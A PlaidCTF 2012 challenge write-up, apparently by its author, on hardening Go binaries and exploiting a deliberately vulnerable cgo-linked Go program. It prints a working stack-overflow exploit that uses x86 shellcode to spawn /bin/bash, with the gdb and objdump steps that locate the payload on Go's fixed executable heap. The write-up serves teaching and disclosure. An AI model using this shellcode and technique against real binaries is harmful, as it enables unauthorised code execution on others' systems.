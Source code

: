 ```yaml
---
title: Securing and Exploiting Go Binaries
layout: post
authors:
  - Alex Reece <awreece>
categories:
  - Pwn
ctf: PlaidCTF
year: 2012
---
```

## Introduction

I have spent some time over the past month or so trying to use Go binaries in a secure manner and trying to exploit Go binaries and I thought it would be useful if I talked a little bit about my journey.

First, I have been working in Go for about a year now. As part of this year's pCTF, I created a problem that involved exploiting a Go binary (binary and source [here][1]). I consequently had to deal with securing the binary to prevent leaking unnecessary information and had some fun playing around with exploiting a Go binary.

<!--more-->

## Securing a Go Binary

Creating a secure, production-ready Go binary was more challenging than expected. By default:

  * The Go build tools include the full path to the source on the build machine in the binary.
  * Go binaries helpfully print the faulting address and instruction on segmentation faults.
  * The heap in Go is loaded at a fixed address and is executable.
  * Go binaries are linked with full debug information.

I filed a [issue][2] suggesting the option for a compiler flag to create a hardended binary, but there has not been much interest in that yet.

Some of these problems can be mitigated with appropriate hacks. The path to the Go runtime can be changed by setting the environment variable `GOROOT_FINAL` before running `all.bash` (see [this comment][3] on the issue I filed). For user code, it takes some more work: I had to deep copy all of my source into a `/tmp/build` directory before compiling so that the only string was a `"/tmp/build"` rather than the actual path.

Some debug information can be stripped by passing `-s` as a command line to the linker (for example, `go build -ldflags "-s" prog.go`). Note that this does not remove file paths, etc from the binary. It is pretty easy to patch the Go runtime to avoid printing the faulting address and instruction, but that should probably take the form of a real change rather than a quick and dirty patch. Unfortunately, the heap to be seems executable and loaded into fixed location by design (so that closures are easier and that heap addresses do not overlap with valid unicode strings, making the garbage collector easier), so it is not clear that that will be fixed for anytime soon.

## Exploiting a Go program

### Disclaimer

First things first &mdash; I did *not* find an exploit in the Go runtime that gave code execution. Instead, I linked the Go binary to a cgo library that had an intentional vulnerability. I had to do some work to make the cgo library exploitable. I made an explicitly vulnerabile C program and specified flags `-fno-stack-protector -U_FORTIFY_SOURCE` to discard modern protections. Lastly, the behavior I performed in cgo (printing a string to stdout) could have trivially been perfomed in pure Go.

However, I personally feel like Go packages use the unsafe package or are linked against full C libraries commonly enough (consider banthars [package][4] with Go bindings for OpenGl or a [variety][5] of other packages) that it is irresponsible for the Go runtime to be poorly secured out of the claim that there are no vulnerabilies in Go. Furthermore, the Go runtime should be better secured to avoid the damage from any as of yet undiscovered vulnerabilities in the Go runtime.

Going forward, I will assume that there is a vulnerability (introduced possibly by a vulnerable C library) and will focus on one interesting way to exploit it by using the Go runtime. I will specifically focus on the [`webapp`][6] problem used in pCTF.

### The actual exploit

The Go runtime has some really interesting properties that make it fun to exploit:

  * The heap is executable.
  * The heap is deterministic and in a fixed location every run
  * Immutable strings tend to end up on the heap

We will construct an exploit that takes advantage of all of these properties. First, we get get a vulnerability that gives us a crash.

```
$ ./webapp --loglevel=2 --logfmt="AAAAAAAAA%8d" --address=":$(perl -e 'print "A"x109, "BBBB"')"
AAAAAAAAA       1Listening on :AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
unexpected fault address 0x42424242
throw: fault
[signal 0xb code=0x1 addr=0x42424242 pc=0x42424242]

goroutine 1 [syscall]:
levellog._Cfunc_Log(0xb736e0b0, 0xb736e0c8)
	/tmp/go-build279009652/levellog/_obj/_cgo_defun.c:50 +0x32
levellog.Log(0x1, 0x1883cd00, 0x7f)
	/tmp/go-build279009652/levellog/_obj/log.cgo1.go:126 +0x140
main.main()
	/tmp/build/src/webapp/main.go:21 +0x101

goroutine 2 [syscall]:
created by runtime.main
	/usr/local/src/go/src/pkg/runtime/proc.c:221
```

Now that we have code execution (and we know the vulnerable function due to the helpful stack trace), we `objdump` the function and put a breakpoint before returning to our clobbered return address.

```
080624d0 <Log>:
 80624d0:       81 ec 9c 00 00 00       sub    $0x9c,%esp
 80624d6:       8b 84 24 a4 00 00 00    mov    0xa4(%esp),%eax
 80624dd:       89 9c 24 94 00 00 00    mov    %ebx,0x94(%esp)
 80624e4:       e8 4f 00 00 00          call   8062538 <__i686.get_pc_thunk.bx>
 80624e9:       81 c3 17 7b 25 00       add    $0x257b17,%ebx
 80624ef:       89 b4 24 98 00 00 00    mov    %esi,0x98(%esp)
 80624f6:       8d 74 24 10             lea    0x10(%esp),%esi
 80624fa:       89 44 24 0c             mov    %eax,0xc(%esp)
 80624fe:       8b 84 24 a0 00 00 00    mov    0xa0(%esp),%eax
 8062505:       89 34 24                mov    %esi,(%esp)
 8062508:       89 44 24 08             mov    %eax,0x8(%esp)
 806250c:       8d 83 00 c3 f2 ff       lea    -0xd3d00(%ebx),%eax
 8062512:       89 44 24 04             mov    %eax,0x4(%esp)
 8062516:       e8 ad 6c 25 00          call   82b91c8 <sprintf@plt>
 806251b:       89 34 24                mov    %esi,(%esp)
 806251e:       e8 b5 6c 25 00          call   82b91d8 <puts@plt>
 8062523:       8b 9c 24 94 00 00 00    mov    0x94(%esp),%ebx
 806252a:       8b b4 24 98 00 00 00    mov    0x98(%esp),%esi
 8062531:       81 c4 9c 00 00 00       add    $0x9c,%esp
 8062537:       c3                      ret```

```
$ gdb webapp
GNU gdb (Ubuntu/Linaro 7.3-0ubuntu2) 7.3-2011.08
Copyright (C) 2011 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
For bug reporting instructions, please see:
...
Reading symbols from /tmp/build/webapp...done.
Loading Go Runtime support.
(gdb) b *0x8062537
Breakpoint 1 at 0x8062537
```

We run our exploit again, and then search the heap for our string (we know that the heap is always in the range `[0x18600000, 0x18900000]` for this binary since Go has a deterministic heap).

```
(gdb) run --loglevel=2 --logfmt="AAAAAAAAA%8d" --address=":$(perl -e 'print "A"x109, "BBBB"')"
Starting program: /tmp/build/webapp --loglevel=2 --logfmt="AAAAAAAAA%8d" --address=":$(perl -e 'print "A"x109, "BBBB"')"
[Thread debugging using libthread_db enabled]
[New Thread 0xb7ccbb70 (LWP 7869)]
AAAAAAAAA       1Listening on :AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

Breakpoint 1, 0x08062537 in Log ()
(gdb) x/a $esp
0xbffff1ac:	0x42424242
(gdb) find 0x18600000, 0x18900000, 0x42424242
0x1883cd7b```

So now we know that our string, which is `:AAAA...AAAABBBB`, is located at `0x1883cd7b - 4 - 109 = 0x1883cd0e` on the heap. (Note &mdash; this is because string concatenations put strings onto the deterministic heap). But then we are done! We change string to include shell code, and then use our control flow control to jump to it.

```
$ ./webapp -loglevel=100 -logfmt=AAAAAAAAA%8d -address="$(perl -e ' print ":\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x0e\xcd\x83\x18"')"
AAAAAAAAA       1Listening on :j
                                Xï¿½Rfh-pï¿½ï¿½Rjhh/bash/binï¿½ï¿½RQSï¿½ï¿½Í€AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAÍƒ
$
```

Success!

## Postmortem

This exploit is interesting for a number of reasons. First of all, it works on any (32 bit) machine running the same version of Go as the attacker. This is because heap allocations end up being quite deterministic. Next, this type of exploit (jump to an object on the executable heap, such as a string put there via a string concatenation) is something that would be easy to replicate in a variety of Go binaries. Lastly, the executable heap offers an easy surface for heap sprays and other attacks. It is also easy to imagine an expoit that uses a heap overwrite to clobber a closure and get code execution.

It is also important to note that, while the vulnerability is introduced through C code, common C protections such as NX, ASLR, and libc randomization would make this binary very difficult to exploit without the use of the weak Go runtime. I wish to repeat: *this binary is easily exploitable because it is a Go binary*, even assuming ASLR, NX, and libc randomization.

I firmly believe that Go should consider randomizing its heap and making it no longer executable. I also think that it is imperative to provide a compiler option that hardens the binary by disabling the printing of debugging information (stack traces, faulting addresses) on program crashes and stripping debugging / package information from the binary.

## Go Community Response

For anyone who is interested, the Go community's response is [here][7]. In summary: vulnerabilities in Go are extremely unlikely so the engineering/complexity overhead required to implement any of these protections is not worth it. I respectfully disagree &mdash; vulnerabilities can come from cgo libraries or from as of yet unknown bugs in the Go runtime itself. Furthermore, I suspect that adding ASLR or NX would not require very much effort.

## Other writeups

There are writeups of this problem available by:

  * [Eindbazen][8] (C style return to libc exploit)
  * [w3stormz][9] (Go heap exploit, in French)

## tl;dr

Go binaries are compiled with a lot of debug info, which some people might want to strip. The Go heap is executable and deterministic, making the exploitation of the pCTF Bunyan problem relatively straightforward.

 [1]: http://ppp.cylab.cmu.edu/wordpress/wp-content/uploads/2012/05/bunyan-wp.tar.gz
 [2]: http://code.google.com/p/go/issues/detail?id=3467
 [3]: http://code.google.com/p/go/issues/detail?id=3467#c4
 [4]: https://github.com/banthar/gl
 [5]: http://go-lang.cat-v.org/library-bindings
 [6]: webapp
 [7]: http://groups.google.com/group/golang-nuts/browse_thread/thread/25df6d94d73a8d41
 [8]: http://eindbazen.net/2012/05/plaid-ctf-2012-bunyan/
 [9]: http://www.bases-hacking.org/bunyan-plaidctf2012.html